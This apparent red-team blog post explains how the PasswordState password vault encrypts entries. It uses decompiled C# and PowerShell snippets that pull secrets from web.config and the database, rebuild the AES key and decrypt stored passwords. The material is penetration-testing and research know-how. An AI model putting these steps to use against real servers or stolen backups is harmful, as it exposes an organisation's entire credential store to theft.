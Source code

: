 # Decrypting PasswordState entries
During one of our recent red teaming engagements we managed to get a foothold in a customer's domain. During our information gathering we stumbled upon a hidden backup share on one of the servers. The hidden share contained a database and webroot backup for the PasswordState ([website](https://www.clickstudios.com.au/)) password vault! PasswordState is an enterprise password management solution. This means we hit the jackpot, for obvious reasons.

Searching the Internet for a way to decrypt all password did not yield any results, so we decided to look into the product and write our own! 

This post starts with an overview how the encryption works and ends with a ready-to-go PowerShell script to use during your red teaming engagements.

## PasswordState Reversing
PasswordState installs itself to `C:\inetpub\PasswordState` by default. In this directory, the web application and service source code is installed. The `C:\inetpub\Passwordstate\bin` contains the executable file `Passwordstate.exe`, which is also the service binary. This is a perfect binary for starting our reverse engineering efforts, since this most likely contains either a reference to the code that decrypts passwords, or a reference to that code.

### Reversing password encryption
The binary is a .NET Framework 4.5 binary. Using [dnSpy](https://github.com/0xd4d/dnSpy) it's possible to decompile this binary into (mostly) readable source code. The binary contains several namespaces, the most interesting being `PasswordstateService`. This namespace contains the service class `PasswordstateService`. 

Looking through the methods of this class, the `AddPassword` function stands out. This function adds a password to the password database, encrypting the plaintext in the process. The decompiled code snippet below shows where the application encrypts the password before storing it in the database.

```c#
public string AddPassword(..., string InitialPassword, ...)
{
    ...
    oleDbCommand2.Parameters.AddWithValue("Password", this.AES_Encrypt(Conversions.ToString(num) + "¿" + InitialPassword));
    ...
}
```

The `AES_Encrypt` function encrypts the password. Apparently, this function uses the [`RijndaelManaged`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged) class in default mode and the [`AesCryptoServiceProvider`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.aescryptoserviceprovider) class in FIPS mode. 

```c#
// PasswordstateService.PasswordstateService
// Token: 0x06000193 RID: 403 RVA: 0x0003EEA8 File Offset: 0x0003D0A8
public byte[] AES_Encrypt(string myString)
{
    byte[] array = new byte[0];
    bool flag = !this.FIPSMode;
    if (flag)
    {
        RijndaelManaged rijndaelManaged = new RijndaelManaged();
        rijndaelManaged.KeySize = 256;
        rijndaelManaged.BlockSize = 256;
        rijndaelManaged.Key = this.EncryptionKey;
        rijndaelManaged.GenerateIV();
        array = this.encryptStringToBytes_AES(myString, rijndaelManaged.Key, rijndaelManaged.IV);
        array = PasswordstateService.Combine(new byte[][]
        {
            array,
            rijndaelManaged.IV
        });
        rijndaelManaged.Dispose();
    }
    else
    {
        AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider();
        aesCryptoServiceProvider.BlockSize = 128;
        aesCryptoServiceProvider.KeySize = 256;
        aesCryptoServiceProvider.Key = this.EncryptionKey;
        aesCryptoServiceProvider.GenerateIV();
        aesCryptoServiceProvider.Mode = CipherMode.CBC;
        aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        byte[] bytes = Encoding.Default.GetBytes(myString);
        using (ICryptoTransform cryptoTransform = aesCryptoServiceProvider.CreateEncryptor())
        {
            byte[] array2 = cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length);
            array2 = PasswordstateService.Combine(new byte[][]
            {
                array2,
                aesCryptoServiceProvider.IV
            });
            array = array2;
        }
        aesCryptoServiceProvider.Dispose();
        aesCryptoServiceProvider = null;
    }
    return array;
}
```

In both cases, the encryption key is taken from a class property `EncryptionKey`. This property is set in the `JoinSplitSecrets` method of the same class. This method gets 4 secrets, 1 and 2 from the web.config file and 3 and 4 from the database. Secret 1 and 3 are then combined into the `EncryptionKey` and secret 2 and 4 are combined into the `HMACKey`. The diagram below shows which secrets are used for which key.

![Diagram](images/diagram.png "Passwordstate key Diagram")

The simplified code snippet below shows this process for the `EncryptionKey`. 
```c#
public void JoinSplitSecrets()
{
    string value1 = "";
    string value3 = "";
    ...
        // get secrets from database
        string cmdText = "SELECT Secret3, Secret4 FROM [SystemSettings]";
    ...
                //assign secrets to variables
                value3 = oleDbDataReader["Secret3"].ToString();
    ...
    // get secret1 from web.config
    XmlNode xmlNode = xmlDocument.DocumentElement.SelectSingleNode("/configuration/appSettings/add[@key=\"Secret1\"]");
    ...
    value1 = xmlNode.Attributes.GetNamedItem("value").Value.ToString().ToLower();
    ...
    
    //append Secret1 and Secret3 to eachother
    StringBuilder stringBuilder = new StringBuilder();
    stringBuilder.AppendLine(value1);
    stringBuilder.AppendLine(value3);

    // Combine these secrets 
    CombinedSecret combinedSecret = SecretCombiner.Combine(stringBuilder.ToString());
    string recoveredTextString = combinedSecret.RecoveredTextString;
    ...
    // Set the encryption key!
    this.EncryptionKey = PasswordstateService.ToHexBytes(recoveredTextString);
}
```

The `SecretCombiner` class comes from the import `Moserware.Security.Cryptography` ([GitHub link](https://github.com/moserware/SecretSplitter)). This library allows a developer to split up secrets in two parts and store them apart from eachother. Combining both parts would lead to the original secret again. 

### Summary
Reversing the PasswordState decryption routine gives the following insights:
* The application generates 4 secrets, stores 2 in DB and 2 in web.config
* 1 secret from web.config and 1 from the DB generate
    * Encryption Key (secret 1 & 3)
    * HMAC Key (secret 2 & 4)
* Passwords are encrypted and stored using AES256-CBC and PKCS7

## Getting the necessary information
As stated before the application stores its secrets spread over the database and the web.config file. Getting the secret from web.config is easy using PowerShell, since PowerShell is capable of parsing XML files and performing XPath queries. Getting the secret is a simple as:

```powershell
[xml]$webConfig = Get-Content .\Examples\web.config
$secret1 = $webConfig.SelectSingleNode('/configuration/appSettings/add[@key="Secret1"]').value
```

In this code snippet we use XPath to select the necessary value.

Getting secret3 involves reading the database. As always, [StackOverflow](https://stackoverflow.com/questions/8423541/how-do-you-run-a-sql-server-query-from-powershell) has the answer. Using the code found in that post getting secret3 is as easy as:

```powershell
$secret3 = (Invoke-SQL -connectionString $ConnectionString -sqlCommand "SELECT secret3 FROM SystemSettings").secret3
```
Combining the secrets to get the encryption key is done like so (after loading in the Moserware DLL):

```powershell
$encryptionKey = [Moserware.Security.Cryptography.SecretCombiner]::Combine($Secret1 + "`n" + $Secret3).RecoveredTextString]
```

Note: this key is a hex-encoded variant of the actual key. Using a snippet from the [SANS](https://www.sans.org/blog/powershell-byte-array-and-hex-functions/) website we can transform it into a byte-array.

So now we have the key, we need to write the decryption function in PowerShell. As mentioned before, PowerShell is able to use the RijndaelManaged class directly. The snippet below shows how to decrypt one single entry. PasswordState uses a non-default Key and Block size.

```c#
$RijndaelManaged = new-Object System.Security.Cryptography.RijndaelManaged
$RijndaelManaged.KeySize = 256
$RijndaelManaged.BlockSize = 256;

$RijndaelManaged.Key = $EncryptionKey
$RijndaelManaged.IV = $InitVector

# Create Rijndael Decryptor with given parameters
$decryptor = $RijndaelManaged.CreateDecryptor($RijndaelManaged.Key, $RijndaelManaged.IV)
```

## Putting it all together
Combining the things we discovered above leads to a PowerShell script that runs on the PasswordState server itself. If ran on the PasswordState server itself, it only needs the `web.config` location (and the SecretSplitter.dll location if it's not installed to the default location).

![PoC screenshot](images/poc.png "Script example")

Alternatively, you can export all necessary secrets and run from another host, as shown in the screenshot below. You just need the secret1 and secret3 value (or the EncryptionKey) and all entries in CSV format.

![PoC screenshot 2](images/poc2.png "Script example 2")

Please use PowerShell's Get-Help to find even more information on how to use this script!

The script can be found on [Northwave's GitHub](https://github.com/NorthwaveNL/passwordstate-decryptor).